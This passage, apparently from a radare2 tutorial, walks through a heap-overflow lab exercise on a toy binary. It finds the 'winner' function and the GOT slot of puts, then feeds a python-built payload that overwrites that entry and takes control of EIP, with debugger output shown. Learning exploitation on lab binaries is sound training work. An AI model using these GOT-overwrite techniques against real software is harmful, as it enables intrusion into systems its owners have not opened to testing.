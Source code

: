 ```
0804c020 R_386_JUMP_SLOT   __libc_start_main@GLIBC_2.0


[0xf7d7c079]> afl ~winner
0x080491a2    1 61           sym.winner
[0xf7d7c079]> 
```
So, we display the address of puts with "afl" and the grep command for radare, the "~". Then get the code of the function. We see that it's basically just a jump the address on the GOT, the real adress of puts. We can verify it with "objdump", it's possible to execute a command like we could do outside radare with the "!" prefix. And finally, we have the address of winner.

We can now try to overwrite puts in the GOT :
```
[0x30303030]> ood `!python -c "print 'AAAABBBBCCCCDDDDEEEE\x1c\xc0\x04\x08 00001111'"`
Wait event received by different pid 13154
Wait event received by different pid 13236
Process with PID 13242 started...
File dbg:///home/zigzag/Documents/survival-guide-radare2/heap_overflow/heapOvf  AAAABBBBCCCCDDDDEEEE 00001111 reopened in read-write mode
= attach 13242 13242
Unable to find filedescriptor 5
Unable to find filedescriptor 6
Unable to find filedescriptor 5
Unable to find filedescriptor 6
13242
[0xf7fcd0b0]> dc
child stopped with signal 11
[+] SIGNAL 11 errno=0 addr=0x30303030 code=1 ret=0
[0x30303030]> drr
   eax 0x804a03d   eax heap program R 0x20646e41 (And that's it !) -->  ascii
   ebx 0x804c000   ebx heap program R W 0x804bf14 -->  obj._DYNAMIC heap program R 0x1 -->  (.comment)
   ecx 0xffe472d8  ecx stack R W 0x30303030 (00001111) -->  eip ascii
   edx 0x804c01c   edx heap program R W 0x30303030 (00001111) -->  eip ascii
   esi 0xffe466f0  esi stack R W 0x3 -->  (.comment)
   edi 0xf7f7f000  (/lib32/libc-2.28.so) edi library R W 0x1d9d6c
   esp 0xffe4669c  esp stack R W 0x80492bc -->  main heap program R X 'add esp, 0x10' 'heapOvf'
   ebp 0xffe466d8  ebp stack R W 0x0 -->  loc.imp.__gmon_start
   eip 0x30303030  eip ascii
   xfs 0x0         loc.imp.__gmon_start
   xgs 0x63        (.symtab) ascii
   xcs 0x23        (.symtab) ascii
   xss 0x2b        (.symtab) ascii
eflags 1ASIV       eflags
  oeax 0xffffffff  oeax
[0x30303030]> 
```

A little bit of explanation on the above. We charged the binary with the arguments, you can see that I used the little trick with the backtick, the exclamation mark and python. The backticks are necessarily for radare to understand that the python command stands for argument. The "!" is here to execute the python command and the python is here to put the hexadecimal values for the address.
